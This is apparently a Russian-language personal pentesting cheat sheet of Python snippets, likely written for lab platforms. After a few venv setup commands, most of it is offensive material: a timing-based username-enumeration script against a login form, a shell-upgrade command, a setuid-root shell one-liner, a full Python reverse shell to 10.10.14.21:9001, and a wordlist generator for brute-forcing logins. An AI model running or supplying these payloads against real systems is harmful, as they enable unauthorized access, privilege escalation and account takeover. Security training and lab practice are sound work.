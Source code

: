 # Python

# Активировать виртуальную среду


python3 -m venv myvenv

source myvenv/bin/activate

pip3 install -r requirements.txt

pip3 install .

deactivate    (выход и окружения)

# Интерактивный режим

    python3 -i script.py

    import requests
    import sys

    # URL формы регистрации
    url = "http://10.10.11.135/login.php?login=true"
    data = {"user":sys.argv[1],"password":"dvdsvdsvdsvsdvs"}
    # Отправка POST-запроса
    response = requests.post(url, data=data)
    print(response.elapsed.microseconds)

![Uploading image.png…]()


# получение виртуальной оболочки внутри текущей сессии линукс

    python3 -c 'import pty;pty.spawn("/bin/bash")'

    export TERM=xterm

# выполнение команд оси

./python3.8 -c “import os; os.setuid(0), os.system(‘/bin/sh’)”

# Reverse shell

    exec python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.21",9001));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
# Разное
for i in range(150):
        if i % 3:
                print("carlos")
        else:
                print("wiener")


print("**************************************************************")
'''
with open('pass.txt', 'r') as f:
        lines = f.readlines()
i=0

for pwd in lines:
    if i % 3:
        print(pwd.strip('\n'))
    else:
        print("peter")
        print(pwd.strip('\n'))
        i = i+1
    i = i + 1
